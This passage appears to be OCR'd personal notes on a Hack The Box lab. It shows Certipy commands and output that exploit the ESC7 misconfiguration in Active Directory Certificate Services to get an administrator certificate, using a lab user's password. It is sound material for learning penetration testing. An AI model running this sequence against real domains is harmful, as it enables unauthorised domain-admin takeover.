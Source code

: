 ## If you have a session on a DC host machine
### ADCS
It’s worth checking Advice Directory Certificate Services (ADCS) as well, and that’s quick, so I’ll start there. This can be done by uploading Certify or remotely with Certipy. I find Certipy easier.
```
https://github.com/ly4k/Certipy
```
```
oxdf@hacky$ certipy find -dc-ip 10.10.11.236 -ns 10.10.11.236 -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -vulnerable -stdout
```
```
ESC7                              : 'MANAGER.HTB\\Raven' has dangerous permissions
```
### ESC7
```
https://0xdf.gitlab.io/2024/03/16/htb-manager.html
```
#### Add Manage Certificates
ESC7 is when a user has either the “Manage CA” or “Manage Certificates” access rights on the certificate authority itself. Raven has ManageCa rights (shown in the output above).
The steps to exploit this are on the Certipy README.
First, I’ll need to use the Manage CA permission to give Raven the Manage Certificates permission:
```
oxdf@hacky$ certipy ca -ca manager-DC01-CA -add-officer raven -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
```
Now Raven shows up there where they didn’t before:
```
oxdf@hacky$ certipy find -dc-ip 10.10.11.236 -ns 10.10.11.236 -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -vulnerable -stdout
```
#### Administrator Certificate
The first step is to request a certificate based on the Subordinate Certification Authority (SubCA) template provided by ADCS. The SubCA template serves as a predefined set of configurations and policies governing the issuance of certificates.
```
oxdf@hacky$ certipy req -ca manager-DC01-CA -target dc01.manager.htb -template SubCA -upn administrator@manager.htb -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
```
```
Would you like to save the private key? (y/N) y
[*] Saved private key to 13.key
```
This fails, but it saves the private key involved. Then, using the Manage CA and Manage Certificates privileges, I’ll use the ca subcommand to issue the request:
```
oxdf@hacky$ certipy ca -ca manager-DC01-CA -issue-request 13 -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
```
Now, the issued certificate can be retrieved using the req command:
```
oxdf@hacky$ certipy req -ca manager-DC01-CA -target dc01.manager.htb -retrieve 13 -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
```
```
[*] Rerieving certificate with ID 13          
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@manager.htb'
[*] Certificate has no object SID
[*] Loaded private key from '13.key'                     
[*] Saved certificate and private key to 'administrator.pfx'
```